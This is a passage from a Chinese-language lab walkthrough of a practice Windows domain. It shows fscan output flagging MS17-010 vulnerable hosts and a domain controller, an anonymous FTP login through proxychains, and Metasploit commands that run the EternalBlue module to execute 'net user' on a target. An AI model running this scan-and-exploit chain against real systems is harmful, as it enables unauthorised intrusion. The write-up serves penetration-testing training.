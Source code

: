 ```plain
192.168.52.143:80 open
192.168.52.141:445 open
192.168.52.141:7001 open
192.168.52.141:8099 open
192.168.52.141:8098 open
192.168.52.141:7002 open
[+] 192.168.52.143  MS17-010    (Windows 7 Professional 7601 Service Pack 1)
[*] NetInfo:
[*]192.168.52.138
   [->]owa
   [->]192.168.52.138
[*] NetInfo:
[*]192.168.52.143
   [->]stu1
   [->]192.168.52.143
   [->]169.254.129.186
   [->]192.168.82.7
[+] 192.168.52.138  MS17-010    (Windows Server 2008 R2 Datacenter 7601 Service Pack 1)
[*] NetBios: 192.168.52.138  [+]DC owa.god.org                   Windows Server 2008 R2 Datacenter 7601 Service Pack 1
[*] NetInfo:
[*]192.168.52.141
   [->]root-tvi862ubeh
   [->]192.168.52.141
[+] 192.168.52.141  MS17-010    (Windows Server 2003 3790)
[*] WebTitle: http://192.168.52.141:7002 code:200 len:2632   title:Sentinel Keys License Monitor
[*] WebTitle: http://192.168.52.143     code:200 len:14749  title:phpStudy 探针 2014
[+] ftp://192.168.52.141:21:anonymous 
[*] WebTitle: http://192.168.52.138     code:200 len:689    title:IIS7
```

### FTP弱口令连接(141机器)：

```plain
proxychains ftp
ftp> open 192.168.52.141 21
Name (192.168.52.141:root): anonymous
Password:
ftp> help
```

[![](assets/1701827767-a75b8f830108e89709d2f42d9e036fea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202192219-0e0a9562-9105-1.png)

### MS17-010永恒之蓝(141机器)：

fscan和nmap扫描发现开放445端口：永恒之蓝漏洞通过TCP的445和139端口，来利用v1和NBT中的远程代码执行漏洞，通过恶意代码扫描并攻击开放445文件共享端口的Windows主机。只要用户主机开机联网，即可通过该漏洞控制用户的主机。

```plain
use auxiliary/admin/smb/ms17_010_command
set COMMAND net user
set RHOST 192.168.52.141
exploit
```
